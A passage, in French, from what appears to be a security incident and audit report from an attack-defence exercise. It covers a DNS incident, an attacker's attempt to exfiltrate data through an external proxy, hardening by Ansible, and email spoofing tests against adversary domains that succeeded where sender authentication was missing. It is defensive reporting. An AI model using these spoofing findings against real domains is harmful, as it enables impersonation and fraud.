- DNS : l'incident du 16/06 a touche `dns_maitre2` pendant la bascule vers le nouveau DNS maitre ; l'audit couvre egalement `dns-master` et `dns_esclave`.
- Proxy : l'attaquant a tente d'utiliser un mandataire externe (`30.10.2.2:3128`) pour l'exfiltration, ce qui a oriente la remediation reseau.
- Administration et durcissement : le poste `172.31.250.2` sert de source aux audits, `ansible` (`10.0.70.6`) applique le durcissement fonde sur le BP-028 de l'ANSSI apres chaque incident.
- Messagerie : les tests d'usurpation ciblent les enregistrements SPF, DKIM et DMARC des domaines adverses, avec `cercueil.fun` comme adresse de reception de controle.

## Etat et limites

Les comptes malveillants ont ete supprimes et le durcissement applique, mais leur creation datant d'avant la mise en place du durcissement, une compromission plus profonde ne peut etre totalement ecartee. Les investigations sur l'ERP ont ete interrompues par manque de temps. Cote offensif, l'usurpation n'a abouti que sur les domaines depourvus de mecanisme d'authentification d'expediteur (`miagent.fr`), les serveurs correctement configures ayant refuse le relais.
